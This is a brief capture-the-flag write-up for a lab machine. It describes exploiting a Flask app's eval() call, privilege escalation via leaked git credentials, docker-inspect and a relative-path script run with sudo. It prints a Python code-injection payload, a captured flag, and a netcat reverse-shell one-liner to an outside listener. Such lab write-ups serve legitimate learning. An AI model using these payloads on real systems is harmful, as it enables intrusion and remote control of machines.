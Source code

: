 Another challenge I do not think I solved correctly, I am linking and talking through the proper solve further down.


# My (incorrect) Solve
Python Flask searchor vulnerability lead to a common PoC which could be bypassed with the simple code injection as seen below, as eval() was used
python `eval()` code injection;
`') + __import__('os').system('cat /home/svc/user.txt') #`

user flag:
654217ecdbd22be02e07a832d412296c


reverse shell:
`') + __import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.69 4444 >/tmp/f') #`



lots of ports:
root seemed too easy: just `bash -p` to escalate privileges...


# The Proper Solve

## Enumeration 
`.git/config` --> showed a subdomain (which I did not manage to find) along with credentials

````BASH
 sudo -S -l
````
^ shows a command which is allowed to be excuted as root:

The vuln = docker-inspect
- allows an instance's config to be dumped

This dumped the information of both a DB (rabbit hole) and a gitea user --> for the subdomain found earlier
- the latter pasword was used to log as administrator to gitea (git management dashboard)

The `system-checkup.py` script uses the `full-checkup.sh` script, but without a specified path, so a privileged shell can be established by creating and uploading a malicious shell as the `full-checkup.sh` script.

Run it with ````BASH
sudo -S /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
and a shell is spawned in a listener.

# Final Thoughts
The intended solve is obviously more interesting and neat, and I believe the easy solve wa also someone haivng left their root 'perseverance' solution available to all other users. BUT, a flag is a flag...
